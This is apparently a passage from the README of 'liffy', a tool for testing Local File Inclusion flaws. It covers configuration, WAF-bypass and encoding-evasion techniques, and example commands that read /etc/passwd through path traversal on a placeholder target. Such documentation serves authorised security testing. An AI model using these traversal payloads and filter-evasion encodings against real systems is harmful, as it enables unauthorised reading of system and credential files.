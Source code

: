 This creates `liffy_config.yaml` with default settings:

```yaml
# Liffy Configuration File
max_threads: 5
rate_limit_delay: 0.1
disable_colors: false
disable_banner: false
default_method: GET
user_agent_rotation: true
```

### Environment Variables

You can also use environment variables:

- `LIFFY_THREADS` - Number of threads
- `LIFFY_RATE_LIMIT` - Rate limit delay
- `LIFFY_NO_COLOR` - Disable colors (true/false)

## Advanced Techniques

### WAF Bypass Techniques

When `--waf-bypass` is enabled, liffy automatically applies multiple evasion techniques:

- **Comment Injection**: `/**/`, `#`, `;`
- **Protocol Confusion**: `file:///`, `pHp://`
- **Encoding Layering**: Multiple encoding combinations
- **Path Obfuscation**: `./`, `../`, null bytes

### Encoding Bypass Techniques

With `--encoding`, liffy applies advanced encoding methods:

- **Double URL Encoding**: `%252e%252e%252f`
- **Unicode Encoding**: `\u002e\u002e\u002f`
- **Mixed Case**: `..%2F`, `..%2f`
- **HTML Entity Encoding**: `&#46;&#46;&#47;`

### POST Request Support

```bash
# POST with form data
python3 liffy.py "http://target.com/lfi.php" -d --method POST --post-data "file=../../etc/passwd"

# POST with custom headers
python3 liffy.py "http://target.com/lfi.php" -d --method POST --headers "X-Forwarded-For:127.0.0.1,Authorization:Bearer token123"
```

## Examples

### Basic LFI Testing
